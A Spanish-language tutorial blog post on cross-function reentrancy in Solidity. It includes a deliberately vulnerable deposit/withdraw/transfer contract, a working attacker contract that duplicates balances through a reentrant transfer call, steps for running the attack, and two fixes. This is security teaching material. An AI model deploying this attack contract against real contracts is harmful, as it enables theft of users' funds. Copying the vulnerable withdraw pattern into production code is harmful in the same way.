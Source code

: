 ```yaml
---
title: 'Solidity: Ataque Reentrancy Cruzado'
description: 'La vulnerabilidad conocida como Reetrancy permite llamar a una misma función una y otra vez. Existe una variante que provoca el llamado a una segunda función. Se lo conoce con el nombre de Reetrancy Cruzado.'
image: '/tech/solidity.png'
pubDate: '06/01/2023'
englishMetadata: {
  title: 'Solidity: Cross Reentrancy Attack',
  description: 'The vulnerability known as Reetrancy allows the same function to be called over and over again. There is a variant that causes a second function to be called. It is known by the name of Reetraccy Cruzado.'
}
prev: 'reentrancy-attack'
next: 'self-destruct-attack'
---
```


# Solidity: Ataque Reentrancy Cruzado

La vulnerabilidad de los contratos inteligentes conocida como **Reetrancy** no solo permite llamar a una misma función una y otra vez. Existe una variante similar, pero que **provoca el llamado a una segunda función**. Se lo conoce con el nombre de **Reetrancy Cruzado**.

## Reentrada cruzada de transacciones

Para que este tipo de vulnerabilidad se exponga, el contrato atacado tener una segunda función que permita manipular ETH de forma no contemplada por la regla de negocio principal del mismo.

Veamos de qué se trata esta vulnerabilidad y cómo prevenirla a través de un simple ejemplo:

### Explicación del contrato vulnerado

Utilizaremos de ejemplo un contrato inteligente que permite depositar, retirar y transferir ETH a un tercero. Cada dirección solo puede retirar sus propios fondos o transferirlos a otra cuenta, pero **la vulnerabilidad permitirá que un atacante duplique sus fondos en otra cuenta** para que esta también pueda hacer retiros de ETH que no le corresponden.

### Contratos involucrados

Comencemos con el contrato principal que contiene la lógica de negocios para el depósito, retiro y transferencia de Ether.

```js
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0 <0.9.0;

contract ReentrancyCross {
  mapping (address => uint) private balances;

  // Función para depositar ETH
  function deposit() public payable {
    balances[msg.sender] += msg.value;
  }

  // Función para retirar todo el ETH de una cuenta
  function withdraw() public {
    uint amount = balances[msg.sender];
    (bool result, ) = msg.sender.call{value: amount}("");
    require(result);
    balances[msg.sender] = 0;
  }

  // Función para enviar ETH de una cuenta a otra, la vulnerabilidad la utiliza para duplicar balances
  function transfer(address to, uint amount) public {
    if (balances[msg.sender] >= amount) {
      balances[to] += amount;
      balances[msg.sender] -= amount;
    }
  }

  // Función para ver el balance de una cuenta
  function getBalance(address addr) public view returns (uint) {
    return balances[addr];
  }

  // Función para ver el balance total del contrato
  function getTotalBalance() public view returns (uint) {
    return address(this).balance;
  }
}
```

Por su parte, el contrato atacante:

```js
contract Ataque {
  // Dirección del owner de contrato donde se duplicará el balance
  address payable ownerAddr;

  ReentrancyCross public reentrancyCross;

  constructor(address _reentrancyCrossAddress) {
    // Instanciamos el contrato ReentrancyCross
    reentrancyCross = ReentrancyCross(_reentrancyCrossAddress);
    ownerAddr = payable(msg.sender);
  }

  // Función que recibe los ETH luego de un retiro
  receive() external payable {
    // Llamando a transfer(), duplicamos el balance en la cuenta del atacante
    reentrancyCross.transfer(ownerAddr, msg.value);
  }

  // Función que ocasiona el llamado a una segunda función luego del retiro
  function attack() external payable {
    require(msg.value >= 1 ether);
    reentrancyCross.deposit{value: 1 ether}();
    reentrancyCross.withdraw();
  }

  // Función para ver el balance total del contrato luego de explotar la vulnerabilidad
  function getTotalBalance() public view returns (uint) {
    return address(this).balance;
  }
}
```

### Procedimiento para vulnerar el contrato

1. Desplegar el contrato `ReentrancyCross`.
2. Depositar 1 ETH con dos cuentas. Hasta este punto, el contrato tendría 2 ETH.
3. Desplegar contrato `Attack` que recibe en el constructor la dirección de `ReentrancyCross`.
4. Hacer el llamado a `Attack.attack` enviando 1 ETH con una tercera cuenta para tener acceso a realizar una extracción. El contrato atacante recuperará inmediatamente ese ETH mientras que también provocará que el balance se duplique en otra dirección para que esta pueda retirar un ETH que no le pertenece.

### ¿Qué sucedió aquí?

`Attack` depositó un ETH e inmediatamente lo retiró con `ReentrancyCross.withdraw` que realiza una `call()` al propio contrato atacante. El contrato atacante recibe ese llamado en `receive()`, guarda el ETH, y ejecuta la función `transfer()` del contrato vulnerado. Dicha función, provoca que el balance del contrato atacante sea transferido a otra dirección. En este ejemplo, se utiliza la dirección que desplegó el contrato `Attack`.

De esta manera, el owner que desplegó el contrato `Attack`, tendrá en su balance personal de `ReentrancyCross` 1 ETH que no le pertenece y que puede retirar sin problemas.

Habiéndose duplicado el balance, el owner de `Attack` se queda con 1 ETH mientras que el propio contrato `Attack` posee el otro ETH fácilmente retirable por parte del owner.

La vulnerabilidad del tipo **Reetrancy Cruzado** es más discreta, ya que esta no vacia por completo los fondos de una contrato como **Reetrancy**, permite realizar pequeños retiros tal vez insospechados si el contrato tiene miles de ETH.

### ¿Por qué sucedió?

Al realizarse la transferencia antes de que el balance del contrato atacante se ponga en 0, permite hacer una transferencia de este balance a otra cuenta. Observa que el balance de la cuenta del contrato atacante se setea a 0 recién en la última línea de código de la función `withdraw()`.

```js
function withdraw() public {
  uint amount = balances[msg.sender];
  (bool result, ) = msg.sender.call{value: amount}("");
  require(result);
  balances[msg.sender] = 0;
}
```
Exactamente, el mismo problema de **Reetrancy**, al no setear el balance a 0 en el momento correcto, permite realizar una transferencia del balance a otra cuenta.

### ¿Cómo se puede evitar?

Veremos dos medidas que puedes tomar para evitar este enorme problema de seguridad.

1. El primero es **mover el seteo del balance a 0 antes del llamado a la función externa**.
```js
function withdraw() public {
  uint amount = balances[msg.sender];
  balances[msg.sender] = 0;
  (bool result, ) = msg.sender.call{value: amount}("");
  require(result);
}
```
Corresponde setear a 0 el balance de la cuenta que retira sus fondos antes de realizar el llamado externo. En el caso de que el llamado falle por otro motivo, no te preocupes, ya que el `require()` hará un `revert()` y los balances volverán a como estaban antes del fallo.

2. También puedes **setear el uso del gas en la llamada externa**.
```js
(bool sent, ) = msg.sender.call{value: monto, gas: 10000}("");
```
Siempre es aconsejable configurar el gas disponible para un llamado externo

## Conclusiones

Hemos visto hasta aquí que el depósito, retiro o transferencia de valor entre cuentas o contratos **es un tema que no debe tomarse a la ligera**. Muchas variables que pueden escaparse y provocar desastres económicos, como muchos que ya han sucedido en la industria. Como desarrolladores Web3, **tenemos la responsabilidad de cuidar el ecosistema y que sea un lugar confiable para depositar nuestro dinero**.

---
Post creado en colaboración con el [Curso de Seguridad de Smart Contracts](https://platzi.com/cursos/seguridad-smart-contracts/ "Curso de Seguridad de Smart Contracts") de **Platzi**.
